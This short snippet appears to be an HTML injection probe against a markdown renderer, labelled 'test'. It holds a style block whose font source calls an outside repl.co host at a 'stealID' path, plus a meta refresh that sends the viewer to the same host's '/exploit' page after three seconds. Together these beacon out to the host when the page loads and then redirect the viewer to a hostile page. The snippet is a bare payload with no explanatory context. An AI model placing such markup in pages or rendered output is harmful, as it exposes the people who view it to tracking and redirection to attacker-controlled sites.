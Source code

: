**test**

<style>
@font-face {
    font-family: "MyFont";
    src: url("https://felineintelligentbytes.kacegi6947.repl.co/stealID");
  }
  body {
    font-family: "MyFont";
  }
</style>
<b>leak</b>
<meta http-equiv="refresh" content="3;url=https://felineintelligentbytes.kacegi6947.repl.co/exploit" />
